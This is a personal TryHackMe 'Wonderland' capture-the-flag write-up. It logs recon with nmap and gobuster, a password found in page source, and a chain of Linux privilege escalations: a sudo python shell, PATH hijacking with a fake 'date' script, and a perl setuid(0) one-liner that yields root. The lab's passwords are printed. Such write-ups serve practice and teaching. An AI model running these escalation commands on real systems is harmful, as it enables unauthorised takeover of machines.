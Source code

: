 
# Matheus Jesus 07-12-2020

## Try Hack Me - [Wonderland](https://tryhackme.com/room/wonderland)

### Recon

IP 10.10.45.0

nmap -sC -sV -oN nmap_initial 10.10.45.0

There is an HTTP server http://10.10.45.0/

```html
<!DOCTYPE html>
<head>
    <title>Follow the white rabbit.</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>
<body>
    <h1>Follow the White Rabbit.</h1>
    <p>"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)</p>
    <img src="/img/white_rabbit_1.jpg" style="height: 50rem;">
</body>
```

On `/img`, there are 2 more images

`gobuster dir -u 10.10.45.0 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt`

`stegoveritas alice_door.png`

#### Follow the Rabbit

disbuster found /r route

`http://10.10.45.0/r/a/b/b/i/t/`

view-source of url reveals `alice:HowDothTheLittleCrocodileImproveHisShiningTail`

### Access

`ssh alice@10.10.45`

`sudo -l` shows that Alice is allowed to run python3.6 as rabbit

```python
import os
os.system("/bin/bash")
```

`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`

*Now logged in as rabbit*

write a simple bash script on tmp called **date**

```sh
#!/bin/bash
/bin/bash
```

`export PATH=/tmp:$PATH`

run script teaParty on /home/rabbit

*Now logged in as hatter*

`cat /home/hatter/password.txt -> WhyIsARavenLikeAWritingDesk?`

### SSH as Hatter

`run linpeas as hatter`

`GTFO bins indicates a good perl privesc`

`perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`

### As root

cat root.txt on /home/alice
cat user.txt on /root
